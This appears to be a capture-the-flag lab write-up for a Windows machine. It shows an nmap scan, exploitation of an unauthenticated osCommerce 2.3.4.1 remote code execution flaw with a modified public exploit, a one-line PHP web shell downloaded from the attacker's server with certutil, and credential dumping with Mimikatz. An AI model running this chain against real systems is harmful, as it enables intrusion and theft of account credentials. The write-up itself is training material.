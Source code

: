 #Windows #RemoteCodeExecution #Shell

**NMAP Scan**

```sh
  nmap -sV -sC -p- 10.10.83.191
  ```

- To see the versions of the services running (**-sV**)
- To perform a script scan using the default set of scripts (**-sC**)
- To scan all ports from 1 through 65535 (**-p-**)


 Open Ports:

* 80/tcp
* 135/tcp
* 139/tcp
* 443/tcp
* 445/tcp
* 3306/tcp
* 8080/tcp
* and some high number ports for Microsoft Mindows RPC


Port 8080/tcp takes us to the following website.


![image](https://user-images.githubusercontent.com/99097743/170898695-0f88913c-e395-43be-a7f8-ded690c878f7.png)

OSCommerce is an e-commerce and online store-management software program

(Ref: https://en.wikipedia.org/wiki/OsCommerce)



A quick **searchsploit** search on **osCommerce 2.3.4** shows the following vulnerabilities:

![image](https://user-images.githubusercontent.com/99097743/170889834-7bc4cd09-df46-41b0-ac76-48e7dc3e57ae.png)

**Exploit title: osCommerce 2.3.4.1 - Remote Code Execution (PATH: php/webapps/44374.py)**

* It is an interesting exploit as it does not require credentials.
* An unauthorized attacker can reinstall if installation directory has not been removed.  
* During the reinstallation process, OS commerce does not attempt to do any authentication, it simple executes the code. 

We need to update the followings inputs in 44374.py:

1) base_url: base_url = "http://10.10.83.191:8080/oscommerce-2.3.4/catalog/"
2) target_url: target_url = "http://10.10.83.191:8080/oscommerce-2.3.4/catalog/install/install>
3) Payload: payload += 'exec("certutil.exe -urlcache -f 10.10.83.191:8080/shell.php shell.php>


![image](https://user-images.githubusercontent.com/99097743/170901248-239aad25-20dc-48a4-9e8d-b17b2190bffe.png)

We need to launch the exploit:

```sh
  python ./44374_modified.py
  ```

  ![image](https://user-images.githubusercontent.com/99097743/170891095-908551f8-3745-40a3-b618-8c2f0616985f.png)  
  This message means our code is injected but we need open the URL above in our browser to execute the code:
  
  ![image](https://user-images.githubusercontent.com/99097743/170891198-c029d698-81fc-4f52-bdf8-0db9b12d0dd4.png)

  
  We can follow the steps below to check the output:
  
  1) Change the paylod in the python script to a ping command for the localhost: **payload += 'exec("ping 10.18.123.93");'**
  2) Open a tcpump session and capture the ICMP packages: **sudo tcpdump -i tun0 icmp**


Great, the code is successfully getting executed! Now we need to work on the actual SHELL.PHP payload

Here are the steps -- Please see the picture below for a visual illustration:

1) Generate a simple web shell in localhost: 

```sh
<?php echo shell_exec($_GET["cmd"]); ?>
```

2) Transfer PHP payload through an HTTP server 

```sh
'exec("certutil.exe -urlcache -f http://10.18.123.93:8000/shell.php shell.php");'
```

3) Refresh the browser and trigger the process. 

![Screenshot 2022-05-29 215707](https://user-images.githubusercontent.com/99097743/170910606-a77516e1-d2b4-4451-9e6f-f0e397f16a54.png)

Great, the remote code is injected and can be executed!

![Screenshot 2022-05-29 221850](https://user-images.githubusercontent.com/99097743/170911203-9d49b17a-80d2-49d7-9419-3b7a4942ee6e.png)

Let's try Mimikatz -- "A little tool to play with Windows security"

https://github.com/gentilkiwi/mimikatz

We can start with sending a new payload including **mimikatz.exe**

Next, we can use **LSADUMP::SAM** command to get the SysKey to decrypt SAM entries (from registry or hive). The SAM option connects to the local Security Account Manager (SAM) database and dumps credentials for local accounts.

![image](https://user-images.githubusercontent.com/99097743/170915343-36a67f7d-7337-4b10-8c43-d1f6de1de6ec.png)

Here is the command to capture the root flag:

![image](https://user-images.githubusercontent.com/99097743/170916055-28ad0652-2cff-42b8-8d1f-942060e1a64d.png)



